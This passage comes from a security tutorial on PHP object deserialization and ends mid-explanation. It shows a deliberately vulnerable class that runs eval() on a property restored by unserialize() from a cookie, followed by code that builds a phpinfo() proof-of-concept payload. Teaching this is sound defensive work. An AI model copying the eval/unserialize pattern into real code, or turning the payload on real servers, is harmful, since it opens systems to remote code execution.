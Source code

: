 ### `unserialize()` Under the Hood

PHP magic methods are method names in PHP that have special properties.  If the serialized object’s class implements any method with a magic name, these methods will have magic properties, such as being automatically run during certain points of execution, or when certain conditions are met. Two of these magic methods are `__wakeup()` and `__destruct()`.

The `__wakeup()` method is usually used to reconstruct any resources that the object may have, reestablish any database connections that were lost during serialization, and perform other reinitialization tasks.

The program then operates on the object and uses it to perform other actions. When no references to the deserialized object exist, the program
calls the `__destruct()` function to clean up the object. This method often contains useful code in terms of exploitation.

### Achieving RCE

For example, consider this vulnerable code example:

```php
class Example2 //**It has a $hook attribute and two methods: __construct() and __wakeup()**
 {
 private $hook;
 function __construct(){
 // some PHP code...
 }
 function __wakeup(){
 if (isset($this->hook)) eval($this->hook); // **The __wakeup() function executes the string stored in $hook as PHP code if $hook is not empty**
 }
 }
 // some PHP code...
$user_data = unserialize($_COOKIE['data']); //**The PHP eval() function takes in a string and runs the content of the string as PHP code. Then, the program runs unserialize() on a user-supplied cookie named data**
```

Here, you can achieve RCE because the code passes a user-provided object into `unserialize()`

To exploit this RCE, you’d set your data cookie to a serialized Example2 object, and the hook property to whatever PHP code you want to execute. You can generate the serialized object by using the following code : 

```php
class Example2
{
 private $hook = "phpinfo();";
}
print urlencode(serialize(new Example2)); // Before we print the object, we need to URL-encode it, since we ’ll be injecting the object via a cookie.
```

`phpinfo()` function is often used as a proof-of-concept function to run in bug reports to proof successful PHP command injection. The following is what happens in detail on the target server during this attack:
